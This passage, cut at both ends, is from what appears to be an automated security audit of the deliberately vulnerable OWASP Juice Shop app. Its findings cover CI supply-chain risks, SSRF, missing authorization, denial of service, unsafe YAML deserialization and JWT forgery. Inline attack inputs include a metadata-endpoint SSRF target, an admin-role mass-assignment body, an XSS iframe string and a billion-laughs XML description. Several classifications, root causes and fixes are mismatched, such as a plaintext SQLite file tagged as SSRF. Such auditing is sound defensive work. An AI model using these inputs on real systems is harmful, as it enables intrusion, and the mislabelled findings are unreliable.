name: "Release Pipeline"
on:
  push:
```

**Fix:** ❷ [M-001](#m-001) — Apply least-privilege permissions

**Classification:** Injection · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Third-party GitHub Action not pinned

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Issue:** Three github/codeql-action steps use mutable version tag @v3 instead of SHA pins. While github/ org actions are lower risk than random third parties, the same tag-mutability attack applies: a compromised GitHub-internal supply chain or account could move @v3 to malicious code that runs with security-events: write scope and repo read access.

**Evidence:** ✓ verified

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-002](#m-002) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** The Dockerfile uses a floating tag (node:24) for its base image. A malicious publisher or registry man-in-the-middle could substitute a trojaned image under the same tag between builds without any change to source control.

Every CI build silently re-pulls whatever bytes currently sit behind that tag.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-003](#m-003) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `package-lock.json:1`

**Issue:** No `package-lock.json` is committed to the repository. Every `npm install` resolves the full dependency tree afresh against the registry, potentially installing different (including newly-compromised) transitive versions on each CI run or developer machine.

Supply-chain attacks via transitive version drift are undetectable without a lockfile.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-004](#m-004) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Use of a Broken or Risky Cryptographic Algorithm

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/index.ts:38`

**Issue:** The Sequelize connection at `models/index.ts:38` uses `storage: 'data/juiceshop.sqlite'` - a plaintext SQLite file on the local filesystem. The file contains all user credentials (`MD5` hashes), PII (email addresses, physical addresses, phone numbers), payment card numbers, order history, and security answers.

Any process running with the same OS user, a container escape, or a path-traversal exploit reaching the application's working directory can read the entire database with a single `sqlite3` command. All PII, credentials, and payment data are readable by any process or user with filesystem access to the application working directory.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `models/index.ts:38` passes the SQLite path as a plain relative path with no encryption options; the Sequelize constructor has no `dialectOptions` encryption setting.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ❸ [M-038](#m-038) — Replace the weak cryptographic algorithm

**Classification:** Server-Side Request Forgery · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:605`

**Issue:** `GET /rest/admin/application-configuration` at `server.ts:605` calls `retrieveAppConfiguration()` which at `routes/appConfiguration.ts:11` returns `res.json({ config })` - the entire `node-config` object. This includes sensitive fields such as `application.secret`, SMTP credentials, OAuth client secrets, and any deployment-specific keys present in config files.

No `security.isAuthorized()` or admin check precedes this route. Any unauthenticated internet user can retrieve internal configuration including secrets, credential patterns, and feature flags.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `routes/appConfiguration.ts:11` returns `res.json({ config })` (the full config object) on any GET request; no auth middleware is mounted on this route in `server.ts:605`.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-039](#m-039) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:277`

**Issue:** `server.ts:277` exposes `/encryptionkeys` as a browsable directory via `serveIndex()` with no authentication middleware. The directory contains `jwt.pub` (the RSA public key) and potentially other key material.

Combined with the hardcoded private key (`lib/insecurity.ts:23`), an attacker can retrieve the public key and verify which tokens will be accepted, aiding JWT forgery. Unauthenticated attacker reads JWT public key (aids forgery analysis) and access logs revealing user email addresses and browsing patterns.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', ...))` at line 277 and `app.use('/support/logs', serveIndex('logs', ...))` at line 281 have no preceding `security.isAuthorized()` middleware.

```typescript
// server.ts:277

  /* /encryptionkeys directory browsing */
  app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', { icons: true, view: 'details' }))
  app.use('/encryptionkeys/:file', serveKeyFiles())

```

**Fix:** ❷ [M-040](#m-040) — Restrict `/encryptionkeys` and `/support/logs` behind isAuthorized and admin-role middleware

**Classification:** Error Information Disclosure · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/profileImageUrlUpload.ts:29`

**Issue:** After the SSRF fetch returns a response, the raw response body is piped directly to frontend/dist/frontend/assets/public/images/uploads/<userId>.<ext> (line 29-30). This directory is statically served by Express without authentication.

A subsequent GET request to /assets/public/images/uploads/<userId>.jpg returns the full response body of the SSRF target. Internal service responses - including credentials, tokens, and configuration data - become directly downloadable by unauthenticated third parties via the static file server.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Readable fromWeb pipe at line 30 writes SSRF response body bytes to a path that maps to a world-accessible static URL; no MIME validation or content sanitization occurs before writing.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-041](#m-041) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** An authenticated attacker POSTs to `/profile/image/url` with imageUrl set to an internal target such as http://169.254.169.254/latest/meta-data/ (AWS IMDS), http://localhost:3000/api/Users, or any internal service. At `profileImageUrlUpload.ts:24`, fetch(url) is called without URL scheme validation, host allowlisting, or DNS rebinding protection.

The HTTP response body is piped to a file in the public uploads directory at frontend/dist/frontend/assets/public/images/uploads/<userId>.<ext> (line 29-30). Attacker reads responses from internal services, cloud metadata endpoints, or localhost admin APIs, potentially obtaining credentials, tokens, or internal network topology.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - fetch(url) at line 24 accepts any URL from `req.body.imageUrl` with no host or scheme restriction; the response body is written to a publicly-served path, creating a two-step read-SSRF-via-upload chain.

```typescript
// routes/profileImageUrlUpload.ts:24
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❷ [M-042](#m-042) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Allocation of Resources without Limits

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:75`

**Issue:** The `authenticatedUsers` object at `lib/insecurity.ts:72` stores every issued JWT token in `tokenMap` (keyed by token string) and `idMap` (keyed by user id). The `put()` function at line 75 adds entries without any eviction, TTL check, or size cap.

A bot can call `POST /rest/user/login` in a loop (no rate limiting), registering a new session token each time. Full service outage - the `Node.js` process crashes when heap is exhausted, dropping all active user sessions and making the application unavailable.

**Evidence:** ✓ verified - `lib/insecurity.ts:75`-78 inserts into `tokenMap` and `idMap` with no bound check, eviction policy, or TTL; no rate-limit middleware is applied to the login route.

```typescript
// lib/insecurity.ts:75
  tokenMap: {},
  idMap: {},
  put: function (token: string, user: ResponseWithUser) {
    this.tokenMap[token] = user
    this.idMap[user.data.id] = token
```

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-044](#m-044) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An authenticated attacker (or one who forged a JWT) submits POST `/b2b/v2/orders` with `orderLinesData` set to an infinite loop such as `while(true){}`. The `vm.runInContext` call blocks `Node.js`'s single event loop thread for the full 2-second timeout before the script-execution-timed-out error fires.

During those 2 seconds, all other HTTP requests queue. Full application-level denial of service - the Juice Shop becomes unresponsive to all concurrent users for the duration of the attack.

**Evidence:** ✓ verified - `b2bOrder.ts:23` calls `vm.runInContext` with a 2-second timeout; the Node\.js VM module runs synchronously and blocks the event loop for the full timeout duration on CPU-bound payloads.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-045](#m-045) — Offload CPU-bound work and bound execution time

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `data/mongodb.ts:9`

**Issue:** Both `reviewsCollection` and `ordersCollection` in `data/mongodb.ts` are MarsDB in-memory collections with no size cap, no eviction policy, and no rate limiting enforced at the data layer. MarsDB 0.6.11 is unmaintained and has no built-in memory management.

An attacker submitting unlimited product reviews (POST `/api/Products/:id/reviews` or equivalent) or flooding order creation causes unbounded growth of the in-memory collection until the `Node.js` process exhausts its heap allocation (`--max-old-space-size` default ≈ 1.5 GB) and crashes, taking the entire application down. A single unauthenticated (or low-privilege) attacker can crash the `Node.js` process by flooding the reviews or orders collection, resulting in complete service unavailability.

**Evidence:** ✓ verified - `new MarsDB.Collection('posts')` at `data/mongodb.ts:9` creates an unbounded in-memory store; no `maxSize`, TTL, or document count limit is set.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-046](#m-046) — Add document-count limits and TTL-based eviction to MarsDB collections, or replace with a bounded persistent store

**Classification:** Insecure Client-Side Storage · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:594`

**Issue:** `POST /rest/user/login` at `server.ts:594` has no rate-limit middleware. The rate limiter configured at `server.ts:343` covers only `/rest/user/reset-password`.

An attacker can send thousands of login requests per second targeting a specific email address, performing unbounded online password brute-force or credential stuffing. Unbounded brute-force of user passwords; credential stuffing attacks succeed without throttling; rate limit on reset password is trivially bypassed via X-Forwarded-For spoofing.

**Evidence:** ✓ verified - No `rateLimit()` middleware precedes `app.post('/rest/user/login', login())` at line 594; the rate limiter at line 343 exclusively covers the password-reset endpoint.

```typescript
// server.ts:594

  /* Custom Restful API */
  app.post('/rest/user/login', login())
  app.get('/rest/user/change-password', changePassword())
  app.post('/rest/user/reset-password', resetPassword())
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-047](#m-047) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An unauthenticated attacker uploads an XML file with a billion-laughs entity cascade (e.g., 9 levels of nested entity references each expanding to 10 copies, producing 10^9 substitutions). With `noent:true` active, libxmljs2 begins expanding entities in native C memory before the `vm.runInContext` timeout at 2000ms fires.

Heap exhaustion crashes the `Node.js` process or causes the 2-second timeout to trigger, rendering the service unavailable for all concurrent users. A single malicious upload can exhaust process memory or peg a CPU core for 2 seconds, enabling an unauthenticated DoS against the entire application.

**Evidence:** ✓ verified - The vm 2000ms timeout (`fileUpload.ts:83`) bounds JS execution but does not prevent libxmljs2's native C layer from consuming unbounded heap during entity pre-expansion before returning to the JS runtime.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-048](#m-048) — Bound parser and decompression resource limits

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:310`

**Instances (17):** `server.ts:310`, `server.ts:311`, `server.ts:407`, `server.ts:419`, `server.ts:420`, `server.ts:421`, `server.ts:437`, `server.ts:440` … (+9 more)

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-050](#m-050) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Heroku CLI installed

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:326`

**Issue:** The `heroku` job in `ci.yml` installs the Heroku CLI by piping the installer script directly to `sh` without any integrity check (line 326). This pattern is vulnerable to MITM attacks against the Heroku CDN, DNS hijacking of `cli-assets.heroku.com`, or a supply-chain compromise of Heroku's asset delivery infrastructure.

The injected code runs with the full permissions of the CI runner, which also holds `secrets.HEROKU_API_KEY` injected two steps later. A compromised Heroku CLI install script gains access to HEROKU_API_KEY and can deploy arbitrary code to the production Heroku environment.

**Evidence:** ✓ verified - `ci.yml` line 326 runs `curl https://cli-assets.heroku.com/install.sh | sh` without checksum verification, in the same job that subsequently uses HEROKU_API_KEY.

```yaml
// .github/workflows/ci.yml:326
        uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
      - name: "Install Heroku CLI"
        run: curl https://cli-assets.heroku.com/install.sh | sh
      - name: "Set Heroku app & branch for ${{ github.ref }}"
        run: |
```

**Fix:** ❷ [M-051](#m-051) — Replace curl-pipe Heroku CLI install with pinned GitHub Action or checksum-verified download

**Classification:** Supply-Chain Integrity · [CWE-494](https://cwe.mitre.org/data/definitions/494.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Incorrect Permission Assignment

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** Three workflows - `ci.yml`, `release.yml`, and `zap_scan.yml` - define no top-level `permissions:` block. On repositories where the organization or repo default is 'read-write' (GitHub's legacy default), the GITHUB_TOKEN implicitly carries write access to contents, packages, deployments, pull-requests, and issues.

Any compromised or malicious step in these workflows (e.g., the unpinned coverallsapp action, or the curl-piped Heroku installer) immediately inherits these elevated permissions. A compromised workflow step gains write access to the repository and all associated GitHub resources, enabling unauthorized release artifact injection or source code modification.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `ci.yml`, `release.yml`, and `zap_scan.yml` each lack a `permissions:` block at both workflow and job level, relying on the repository's default GITHUB_TOKEN grant.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-052](#m-052) — Apply least-privilege permissions

**Classification:** Supply-Chain Integrity · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:369`

**Issue:** At `server.ts:369`, the comment `// app.put('/api/Products/:id', security.isAuthorized())` shows the authentication middleware is deliberately commented out (challenge: `changeProductChallenge`). The finale-generated `PUT /api/Products/:id` endpoint therefore accepts unauthenticated requests.

Any anonymous user can modify product names, descriptions, and prices. Unauthenticated modification of all product records including prices (financial fraud) and descriptions (stored XSS injection point).

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - Line 369 in `server.ts` is a commented-out `isAuthorized()` guard; no other authorization middleware protects `PUT /api/Products/:id`.

```typescript
// server.ts:369
  /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
  app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  app.delete('/api/Products/:id', security.denyAll())
  /* Challenges: GET list of challenges allowed. Everything else forbidden entirely */
```

**Fix:** ❷ [M-054](#m-054) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Mass Assignment Admin Role Injection

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:483`

**Issue:** The finale-generated `POST /api/Users` endpoint at `server.ts:419` creates a `UserModel` record from the entire request body without field filtering. The `UserModel` has a `role` column (values: `customer`, `deluxe`, `accounting`, `admin`).

An unauthenticated caller can POST `{ "email": "attacker@evil.com", "password": "...", "role": "admin" }` and create an account with admin privileges. Unauthenticated self-registration as admin; full administrative API access from initial account creation.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - The `User` finale resource at line 483 excludes only `password` and `totpSecret`; the `role` field is writable by any POST `/api/Users` caller.

```typescript
// server.ts:483

  const autoModels = [
    { name: 'User', exclude: ['password', 'totpSecret'], model: UserModel },
    { name: 'Product', exclude: [], model: ProductModel },
    { name: 'Feedback', exclude: [], model: FeedbackModel },
```

**Fix:** ❷ [M-055](#m-055) — Exclude role and isActive fields from the User finale auto-model and enforce role assignment server-side

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Deserialization of Untrusted Data

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:117`

**Issue:** An unauthenticated attacker uploads a YAML file to `/file-upload` using a .yml or .yaml extension. At `fileUpload.ts:116-117`, js-yaml 3.14.2 is loaded into a vm sandbox and invoked via `yaml.load`(data).

In js-yaml v3, `yaml.load()` uses the DEFAULT_UNSAFE_SCHEMA by default, which supports !!js/function, !!js/undefined, and !!js/regexp tags. A successful payload achieves arbitrary code execution on the server host as the `Node.js` process user, achieving full compromise of the application and potentially the underlying container or host.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - js-yaml version 3.14.2 (package\.json line 187) is used with the unsafe `yaml.load`() API at `fileUpload.ts:117`; v3 defaults to DEFAULT_UNSAFE_SCHEMA which deserializes !!js/function and !!js/regexp tags into live JavaScript objects.

```typescript
// routes/fileUpload.ts:117
        const sandbox = { yaml, data }
        vm.createContext(sandbox)
        const yamlString = vm.runInContext('JSON.stringify(yaml.load(data))', sandbox, { timeout: 2000 })
        res.status(410)
        next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(yamlString, 400) + ' (' + file.originalname + ')'))
```

**Fix:** Use a strict allow-list deserialiser and never accept untrusted gadget chains → ❷ [M-056](#m-056) — Replace js-yaml `yaml.load` with yaml.safeLoad or upgrade to js-yaml v4 and use load

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-502](https://cwe.mitre.org/data/definitions/502.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Client-Controlled Challenge Solver

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:41`

**Issue:** Three WebSocket event handlers at lines 41-52 accept client-supplied data and directly invoke `challengeUtils.solveIf()`, which persists `solved=true` to the database (`challengeUtils.ts:29-43`). Because the connection has no authentication check, any unauthenticated client can: (1) send `<iframe src="javascript:alert(\`xss\`)">` to `verifyLocalXssChallenge` to mark the XSS challenge as solved; (2) send a crafted path matching the SVG injection regex to `verifySvgInjectionChallenge`; (3) send `[1, 2]` to `verifyCloseNotificationsChallenge`.

Each triggers a DB update, a server-side log entry, and a global broadcast announcing the challenge as solved - without the attacker ever having triggered the exploit in a browser. Any unauthenticated client can mark arbitrary challenges as solved in the persistent database, corrupting the challenge scoreboard and gaining false credit.

**Evidence:** ✓ verified - `challengeUtils.solveIf()` at `registerWebsocketEvents.ts:42`,47,51 is called with a lambda that validates only the client-supplied data parameter - no server-side verification of actual exploit execution, no authentication gate.

**Fix:** ❸ [M-057](#m-057) — Require authenticated identity and server-side evidence before marking WebSocket-triggered challenges as solved

**Classification:** Insecure File Handling · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Improper Access Control

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/user.ts:80`

**Issue:** The `role` setter in `UserModel` at `models/user.ts:80-99` validates that the value is in `['customer', 'deluxe', 'accounting', 'admin']` but performs no caller-identity check. Any call to `UserModel.update({ role: 'admin' }, { where: { id: targetId } })` from any route handler will succeed if the value is a valid enum string.

If a route handler passes the `role` field from `req.body` (directly or via Sequelize's dynamic `fields[]` option), an authenticated customer-tier user can self-elevate by sending `{ "role": "admin" }` in a PUT body. A customer-tier user who finds any route passing `req.body.role` to `UserModel.update()` gains admin-level access to the application.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - The `role` field definition at `models/user.ts:80` has `validate.isIn` but no `readOnly` flag or context-aware authorization hook preventing escalation.

```typescript
// models/user.ts:80
        }
      }, // vuln-code-snippet end weakPasswordChallenge
      role: {
        type: DataTypes.STRING,
        defaultValue: 'customer',
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❷ [M-032](#m-032) — Add a model-layer beforeUpdate hook that rejects role changes by non-admin callers

**Classification:** Broken Access Control · [CWE-284](https://cwe.mitre.org/data/definitions/284.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/challengeUtils.ts:71`

**Issue:** When any challenge is solved, `challengeUtils.sendNotification()` (line 71) calls `globalWithSocketIO.io.emit('challenge solved', notification)` - broadcasting the full notification object to every currently connected WebSocket client. The notification payload (lines 58-66) includes the `flag` field produced by `utils.ctfFlag(challenge.name)`.

on every new WebSocket connection, `registerWebsocketEvents.ts` lines 30-32 replay all previously queued notifications (including their flag values) to the newly connected socket. Unauthenticated clients harvest CTF flags for challenges solved by any user, enabling score manipulation without solving the underlying security challenge.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - globalWithSocketIO.io.emit at line 71 broadcasts to all sockets; notification object at lines 58-66 includes the flag field; replay loop at `registerWebsocketEvents.ts:30`-32 sends all queued flags on new connection.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-043](#m-043) — Stop exposing internal information to clients

**Classification:** Broken Authentication · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Improper Authentication

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/2fa.ts:26`

**Issue:** The 2FA verification handler at `routes/2fa.ts:26` calls `security.verify(tmpToken) && security.decode(tmpToken)` to extract `userId` and `type`. The `verify()` function at `lib/insecurity.ts:57` uses `jws.verify(token, publicKey)` - the `jws` library's verify with an `RS256` public key will return false for an `alg:none` token because it checks the signature against the key.

However, since the `privateKey` is publicly known (auth-001), an attacker who intercepts the `tmpToken` response (or knows a target's `userId` from a previous account enumeration) can sign a fresh `{ userId: <victim_id>, type: 'password_valid_needs_second_factor_token' }` token with the known RSA private key. 2FA is rendered ineffective - an attacker who only knows a victim's username can forge a tmpToken and complete the 2FA flow to obtain a fully-authenticated session token.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `routes/2fa.ts:26` trusts the decoded `userId` from `tmpToken` without verifying that the token was issued as part of a genuine password-valid session; `lib/insecurity.ts:23` makes the signing key available to any attacker.

```typescript
// routes/2fa.ts:26

  try {
    const { userId, type } = security.verify(tmpToken) && security.decode(tmpToken)

    if (type !== 'password_valid_needs_second_factor_token') {
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❷ [M-049](#m-049) — Harden the authentication flow

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Use of Insufficiently Random Values

